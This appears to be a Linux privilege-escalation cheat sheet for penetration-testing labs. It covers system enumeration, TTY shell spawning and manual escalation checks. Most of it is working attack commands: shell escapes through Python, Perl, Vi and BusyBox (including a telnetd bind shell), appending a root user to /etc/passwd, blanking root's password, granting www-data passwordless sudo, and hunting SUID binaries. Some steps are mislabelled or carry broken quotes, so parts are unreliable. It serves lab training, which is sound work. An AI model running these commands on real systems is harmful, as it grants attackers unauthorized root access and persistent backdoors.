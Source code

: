 - [Enumeration](#enumeration)
  * [System Foothold](#system-foothold)
  * [Spawning TTY Shell](#spawning-tty-shell)
  * [Manual Enumeraiton](#manual-enumeration)
  * [Getting Proof](#getting-proof)

## Enumeration

### System Foothold

Print the name and version of the Unix/Linux box:

```
uname -a
cat /proc/version
cat /etc/issue
```

Find linux distribution & version:

```
cat /etc/issue; cat /etc/*-release; cat /etc/lsb-release; cat /etc/redhat-release;
```

Find Architecture:

```
$ cat /proc/version; uname -a; uname -mrs; rpm -q kernel; dmesg | grep Linux; ls /boot | grep vmlinuz-; file /bin/ls; cat /etc/lsb-release
```

For Kernels exploits search in Searchsploit or:


GoogleHacking:

```
site:exploit-db.com kernel version
```

Or using linprivchecker.py or lse.py (Linux Smart Enumartion script).

### Spawning TTY Shell

After getting intial shell, create TTY shell:

Python:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Bash:
```
echo os.system('/bin/bash')
/bin/sh -i
```

Perl:
```
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
```

Ruby console:
```
 exec "/bin/sh"
```

Lua console:
```
os.execute('/bin/sh')
```

Vi:
```
:!bash
:set shell=/bin/bash:shell
```
BusyBox:
```
/bin/busybox telnetd -|/bin/sh -p9999
```

Set PATH and TERM if they are missing (also to acsses other bins):

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=bash
``` 

### Manual Enumeration

Check for sudo allowance:

```
sudo su -
sudo -l
```

Is /etc/shadow is world-writable (ls -la /etc/shadow == -rwxrwxrwx) ?

1) Create our password:
```
perl -le ‘print crypt(“Password@973″,”addedsalt”)’
```
2) Append our new user to the /etc/shadow file:

```
echo "hacker:<our_generated_password>:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
```

OR reset root pasword using this trick (may be unstable):

```
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```

Can we add user with no password to /etc/sudoers file?

```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

What process are running under root?

```
ps aux | grep root
```

What SUID / GUID binaris are available?

```
#Find SUID
find / -perm -u=s -type f 2>/dev/null

#Find GUID
find / -perm -g=s -type f 2>/dev/null
```

Abusing sudo-rights using SUID/GUIDS or any 3rd-party utility could be found using https://gtfobins.github.io/

Finding world readable/writable directories:

```
 echo "world-writeable folders"; find / -writable -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -222 -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -o w -type d 2>/dev/null; echo "world-executable folders"; find / -perm -o x -type d 2>/dev/null; echo "world-writeable & executable folders"; find / \( -perm -o w -perm -o x \) -type d 2>/dev/null;
```

Check for Environment variables:
```
cat /etc/profile; cat /etc/bashrc; cat ~/.bash_profile; cat ~/.bashrc; cat ~/.bash_logout; env; set
```

Check what exported path are availble:

```
export -p
```

Check background process (cronjobs):

```
crontab -l; ls -alh /var/spool/cron; ls -al /etc/ | grep cron; ls -al /etc/cron*; cat /etc/cron*; cat /etc/at.allow; cat /etc/at.deny; cat /etc/cron.allow; cat /etc/cron.deny
```

### Getting Proof

Getting final Proof:

```
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "
```

